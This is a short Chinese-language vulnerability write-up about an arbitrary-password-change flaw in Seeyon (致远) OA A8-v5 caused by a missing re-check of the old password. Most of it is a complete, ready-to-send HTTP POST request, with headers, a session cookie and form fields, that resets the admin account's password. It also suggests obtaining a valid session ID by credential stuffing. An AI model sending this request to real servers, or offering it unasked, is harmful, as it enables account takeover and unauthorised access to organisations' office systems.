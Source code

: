 ```yaml
---
title: "致远OA A8-v5 任意用户密码修改"
id: zhfly3358
---
```


# 致远OA A8-v5 任意用户密码修改

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST如下数据

```
POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0

Accept: text/html, application/xhtml+xml, */*

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

Accept-Language: zh-CN

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Content-Type: application/x-www-form-urlencoded

Proxy-Connection: Keep-Alive

Pragma: no-cache

Content-Length: 86

DNT: 1

Host: [www.0-sec.org](http://www.0-sec.org)

Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do" `individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456` 
```

individualName为用户名

注意，此处需要以一个合法的JSESSIONID发送如上数据即可修改任意用户密码，合法的JSESSIONID由撞库得出。

本次证明演示中修改的用户为admin，修改为wy123456